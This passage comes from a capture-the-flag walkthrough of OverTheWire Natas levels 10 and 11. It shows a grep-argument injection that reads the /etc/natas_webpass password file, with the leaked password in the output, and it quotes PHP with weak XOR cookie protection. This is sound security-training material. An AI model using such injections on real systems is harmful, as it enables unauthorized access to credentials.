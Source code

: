 ``` php
```

This filtering doesn't exclude all characters that could be useful. If you read the *grep* manpage, you will come across this section:

> Anchoring
> The caret ^ and the dollar sign $ are meta-characters that respectively  match the empty string at the beginning and end of a line.

So I went ahead and tried <code>^ cat /etc/natas_webpass/natas11</code>, and the password was output, along with the rest of the file. This worked because *grep* returned every line containing the string that matches the beginning of the line (or end if you use $). I just added the password file for *grep* to read

``` plain
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
...
```

### Level 11

{% img center /images/overthewire/natas/natas11.png 'natas11' 'natas 11' %}

The backend code is more complicated:

``` php
<?

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
```